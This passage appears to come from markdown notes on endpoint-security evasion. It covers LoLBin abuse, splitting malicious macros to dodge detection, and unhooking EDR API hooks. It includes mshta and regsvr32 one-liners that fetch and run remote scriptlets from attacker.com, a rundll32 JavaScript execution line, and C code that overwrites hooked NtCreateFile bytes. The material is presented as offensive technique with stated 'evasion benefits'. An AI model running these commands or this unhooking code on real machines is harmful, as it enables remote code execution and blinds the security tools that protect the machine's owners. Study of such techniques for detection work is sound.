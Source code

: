 #### Common LoLBins Examples:
```powershell
# PowerShell execution via trusted binaries
mshta.exe javascript:a=GetObject("script:https://attacker.com/script.sct").Exec()

# Rundll32 for DLL execution
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";x=new%20ActiveXObject("WScript.Shell");x.Run("calc");

# Regsvr32 for script execution
regsvr32 /s /n /u /i:http://attacker.com/file.sct scrobj.dll
```

### 5. Dechaining Macros

**Definition:** Technique to break up malicious macro execution into smaller, less detectable components that individually appear benign.

#### Implementation Strategy:
- **Macro Fragmentation:** Split malicious functionality across multiple macros
- **Time-Delayed Execution:** Use timers to space out macro executions
- **Event-Driven Triggers:** Use document events to trigger macro components
- **Cross-Document Chaining:** Chain macros across multiple documents

#### Evasion Benefits:
- **Behavioral Analysis Bypass:** Individual components appear non-malicious
- **Sandbox Evasion:** Avoid triggering sandbox detection thresholds
- **Static Analysis Defeat:** Break signature-based detection

### 6. Clearing Memory Hooks

**Definition:** Technique to remove or bypass security hooks placed in memory by endpoint security solutions.

#### Hook Types and Bypass:
- **API Hooks:** Remove or redirect API function hooks
- **Inline Hooks:** Restore original function bytes
- **IAT Hooks:** Restore Import Address Table entries
- **SSDT Hooks:** System Service Descriptor Table manipulation

#### Technical Implementation:
```c
// Example concept for unhooking (educational purposes)
// Restore original API function bytes
BYTE originalBytes[] = {0x4C, 0x8B, 0xD1, 0xB8, 0x42, 0x00, 0x00, 0x00}; // Original NtCreateFile bytes
DWORD oldProtect;
VirtualProtect(pNtCreateFile, sizeof(originalBytes), PAGE_EXECUTE_READWRITE, &oldProtect);
memcpy(pNtCreateFile, originalBytes, sizeof(originalBytes));
VirtualProtect(pNtCreateFile, sizeof(originalBytes), oldProtect, &oldProtect);
```

---
